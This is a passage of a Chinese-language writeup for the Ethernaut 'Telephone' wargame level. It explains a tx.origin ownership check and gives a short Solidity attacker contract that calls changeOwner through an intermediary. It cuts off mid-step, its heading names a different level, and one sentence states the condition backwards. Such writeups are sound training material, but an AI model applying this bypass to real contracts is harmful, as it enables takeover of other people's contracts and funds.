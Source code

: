 # 0 - Hello Ethernaut writeup

## 题目
[Telephone](https://ethernaut.openzeppelin.com)

## 笔记
首先注意到只有在 tx.origin != msg.sender 时，能够获得拥有权，如果我以自己的钱包直接调用 changeowner 函数，无法得到 tx.origin 与 
msg.sender 相等的条件，但如果我写一个合约调用 changeowner 函数，而以钱包调用这个合约，就可以满足要求，于是合约如下
```
   pragma solidity ^0.8.0;

import "Ethernaut/Telephone/Telephone.sol";

contract hack_Telephone {
    Telephone telephone;
    constructor(address telephone_address) {
        telephone = Telephone(telephone_address);
    }

    function  hack_changeowner() public {
        telephone.changeOwner(msg.sender);
    }

}
```

通过 remix 部署上述合约，在部署时填入题目合约的地址即可成功部署，随后调用